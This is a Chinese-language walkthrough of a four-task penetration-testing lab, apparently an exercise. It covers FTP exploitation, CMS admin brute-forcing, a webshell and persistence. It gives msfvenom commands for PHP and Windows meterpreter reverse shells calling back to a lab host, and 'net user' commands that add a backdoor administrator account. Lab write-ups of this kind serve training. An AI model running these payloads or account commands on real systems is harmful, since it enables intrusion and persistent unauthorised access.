实验拓扑如下




## 任务一 寻找漏洞主机

扫描存活主机(虽然知道了但还是扫一下)

注意本机ip是192.168.1.2



\-F 选项快速扫描一下其他主机





既然是ftp，那么就锁定192.168.1.3

提示了搜索vsftpd (靶机上搜索太慢了，我在自己机器上搜索的)



然后使用这个exploit去打就行了



可以看到进去就是root权限hhhh

然后还要搜索 1.key 这个文件

```
find  / -name 1.key
```



读一下就好了

## 任务二 使用nikto、crunch和burpsuite进行网站渗透和控制

此时的目标转向了 192.168.1.4 (192.168.1.3都拿到root了)

打开网站是 Cms made Simple 简称cms cms



后台地址 `/admin/login.php`

先设置一个代理



然后抓个包



由于密码是 `admin` 加上三位数字，如果想用 crunch 生成也行，直接用burp也行

爆破成功



进入到网站后台



## 任务三 获取webshell权限并拿到目标及开放的远程桌面端口号

漏洞点在这



Run一下



好那我们这里为了避免网页卡顿。用msf生成一个shell.php

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.2 lport=4444 -f raw -o shell.txt
```

然后复制到框框里运行一下

同时msf进行监听



成功弹到shell。之后再使用msf生成shell.exe

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.2 lport=4444 -f exe -o shell.exe
```

上传，重新弹一个shell



ok这时候就能获得真正的meterpreter了

查看一下监听端口



随便猜一个吧2333

## 任务四 向目标主机添加用户并控制

这个步骤和上一个实验比较相似，就不用细说了

```
net user hacker Beijing123 /add
net localgroup administrators hacker /add
```

远程登陆之后，给文件添加一个用户即可

最后


